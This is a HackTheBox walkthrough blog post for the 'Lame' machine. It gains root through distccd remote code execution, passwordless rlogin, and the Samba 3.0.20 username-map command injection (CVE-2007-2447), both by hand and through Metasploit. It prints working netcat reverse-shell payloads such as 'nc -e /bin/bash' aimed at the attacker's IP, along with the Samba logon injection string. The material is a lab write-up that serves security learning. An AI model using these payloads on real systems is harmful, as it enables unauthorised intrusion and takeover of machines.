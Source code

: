```yaml
---
layout: post
title: Lame
subtitle: Lame HackTheBox
cover-img: /assets/img/htb-bg.png
thumbnail-img: /assets/img/Lame_Big.png
share-img: /assets/img/Lame_Release.jpg
tags: [Linux, CVE, Pentesting]
categories: HackTheBox
---
```

<img src="https://github.com/susMdT/secondsite.github.io/blob/dev-pages/assets/img/Lame_Release.jpg?raw=true" class="mx-auto d-block" unselectable="on" />
Lame is an easy level box on HackTheBox and covers many basics. There are multiple approaches for this box and overall it was pretty fun. My approach was to exploit the `distccd` service to gain a foothold, and then using `rlogin` to gain root, as it required no password.

# Walkthrough
Start off by performing a complete, general nmap scan `nmap -p-`
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Note that `distccd`, an exploitable service, is running. Remote code execution is possible through Metasploit. Using `exploit/unix/misc/distcc_exec`, set the payload to `cmd/unix/generic` with the command as `echo "nc -e /bin/bash <ip> <port>" > b.sh ; ./b.sh`. The options should look similar to this
```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/generic):

   Name  Current Setting                                                                     Required  Description
   ----  ---------------                                                                     --------  -----------
   CMD   echo "nc -e /bin/bash 10.10.14.4 4444" > b.sh ; chmod +x ./b.sh ; ./b.sh            yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   ```
This payload creates a script for a reverse shell on the victim machine, makes it executable, then executes it. So before this exploit is run, make sure you have a listener open on your host with `nc -nvlp <port>`. After receiving a connection and upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")`, we should have something like this:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 52475
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ 
```
Enumerating further with `nmap localhost` gives us much more information now.
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
953/tcp  open  rndc
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
3632/tcp open  distccd
4444/tcp open  krb524
5432/tcp open  postgres
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
```
Port 513, rlogin, is dated and vulnerable by default and doesn't require password by default. This can be exploited with `rlogin localhost -l root`.
```
daemon@lame:/tmp$ rlogin localhost -l root
rlogin localhost -l root
Last login: Thu Sep 30 10:48:49 EDT 2021 from :0.0 on pts/0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~#
```
We have successfully rooted the machine.

# Bonus
Something to note about this box is how many attack vectors there are and false leads. Version numbers for many services running were exploitable, but I had not done that on my initial attempt. 

## Alternate Approach: SMB 3.0.20, No metasploit
Doing a more detailed nmap scan, checking version numbers and using scripts with `nmap -sC -sV`, we can find that Samba is running.
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
Googling the version (3.0.20), we can find that this version along with others between 3.0.0 and 3.0.25, are vulnerable to remote code execution (CVE-2007-2447). First, enumeration of the available shares is necessary through `smbmap -H 10.10.10.3`:
```
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
Since access to the /tmp share is given, an attacker can connect to it and utilize the CVE. Connect to it via `smbclient //10.10.10.3/tmp`:
```
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
Anonymous logon was granted so that is why access was possible. From the Samba terminal, RCE is possible in this version. Running the command ``logon "./=`nohup nc -e /bin/sh <local ip> <local port>`"`` in the Samba terminal while having a listener on the attacking machine with `nc -nvlp <local port>` returns an error in the Samba terminal
```
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.4 4444`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
```
But on the listener, the attacker actually gains a root shell.
```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38533
whoami
root
```

## Alternate Approach: SMB 3.0.20, with Metasploit
Metasploit makes usages of the CVE much easier. Simply searching for this Samba version in the Metasploit console with `search exploit samba 3.0.20` returns
```
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```
Using this exploit while setting our options
```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <local ip>       yes       The listen address (an interface may be specified)
   LPORT  <local port>     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
Will give us a root shell just like the previous method shown.
## Failed Attack Vectors
There were many failed attack vectors, some of the notable ones were: FTP and MySQL no root password. This FTP version (2.3.4) is vulnerable to an exploit that didn't work. Additionally, access to the locally hosted MySql database as the root user required no password, but the credentials and information found in the database weren't applicable anywhere.

--Dylan Tran 9/30/21
